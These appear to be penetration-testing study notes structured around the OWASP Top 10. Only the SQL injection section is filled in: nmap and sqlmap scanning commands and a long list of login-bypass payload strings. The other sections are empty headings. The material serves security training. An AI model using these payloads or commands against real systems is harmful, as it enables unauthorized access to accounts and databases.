 ## [OWASP Cheat Sheet](https://cheatsheetseries.owasp.org/index.html)
## [Web Application Attacks](https://vulp3cula.gitbook.io/hackers-grimoire/exploitation/web-application)

# [OWASP](#owasp)
  - [Injection](#injection)
  - [Broken Authentication](#broken-authentication)
  - [Sensitive Data Exposure](#sensitive-data-exposure)
  - [XML External Entity](#xml-external-entity)
  - [Broken Access Control](#broken-access-control)
  - [Security Misconfiguration](#security-misconfiguration)
  - [Cross-site Scripting](#cross-site-scripting)
  - [Insecure Deserialization](#insecure-deserialization)
  - [Components with Known Vulnerabilities](#components-with-known-vulnerabilities)
  - [Insufficent Logging & Monitoring](#insufficent-logging-and-monitoring)

## OWASP

### Injection

[SQL INJECTION - PORTSWINGER](https://portswigger.net/web-security/sql-injection)

- Enum using nmap
  >
  > nmap -sV --script=http-sql-injection <target>
  >
- Using jsql
- Using sqlmap with login-page
- Capture the request using burp suite, and save the request in a file.
  >
  > sqlmap -r request.txt
  >
- Crawl a page to find sql-injection.
  >
  > sqlmap -u http://example.com --crawl=1
  >
- Login bypass
  >
  > ‘or 1=1- -
  >
  >‘ or ‘1’=1
  >
  >‘ or ‘1’=1 - -
  >
  >‘–
  >
  >' or '1'='1
  >
  >-'
  >
  >' '
  >
  >'&'
  >
  >'^'
  >
  >'*'
  >
  >' or ''-'
  >
  >' or '' '
  >
  >' or ''&'
  >
  >' or ''^'`
  >
  >`’ or ‘‘*’
  >
  >"-"
  >
  >" "
  >
  >"&"
  >
  >"^"
  >
  >"*"
  >
  >" or ""-"
  >
  >" or "" "
  >
  >" or ""&"
  >
  >" or ""^"
  >
  >" or ""*"
  >
  >or true--
  >
  >" or true--
  >
  >' or true--
  >
  >") or true--
  >
  >') or true--
  >
  >' or 'x'='x
  >
  >') or ('x')=('x
  >
  >')) or (('x'))=(('x
  >
  >" or "x"="x
  >
  >") or ("x")=("x
  >
  >")) or (("x"))=(("x
  >
- known Username
  >
  >admin’ - -
  >
  >admin’) - -
  >
- Using error-bases DB enumeration
  >
  >Add the tick '
  >
  >Enumerate columns
  >
Using order by
  [Total OSCP Guide](https://sushant747.gitbooks.io/total-oscp-guide/content/sql-injections.html)

### Broken Authentication

### Sensitive Data Exposure

### XML External Entity

### Broken Access Control

### Security Misconfiguration

### Cross-site Scripting

### Insecure Deserialization

### Components with Known Vulnerabilities

### Insufficent Logging & Monitoring
